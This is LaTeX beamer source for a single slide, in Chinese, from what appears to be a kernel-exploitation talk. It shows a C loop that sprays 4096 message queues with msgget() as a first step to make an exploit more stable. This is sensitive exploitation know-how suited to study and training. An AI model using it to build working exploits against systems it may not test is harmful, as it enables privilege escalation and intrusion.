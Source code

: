 \documentclass[xcolor=table]{beamer}
\begin{document}
\subsection{初步利用}

\begin{frame}[fragile]
\frametitle{创建4096个消息队列}
\small{首先，我们使用 msgget() 初始化了很多消息队列（在本例中是 4096 个）。消息队列数目并没有限制，但是越多，exp稳定性会越强}

\tiny\begin{lstlisting}[language=c]
for (int i = 0; i < NUM_MSQIDS; i++) {
    if ((msqid[i] = msgget(IPC_PRIVATE, IPC_CREAT | 0666)) < 0) {
        perror("[-] msgget");
        goto err_no_rmid;
    }
}
\end{lstlisting}


\end{frame}
\end{document}

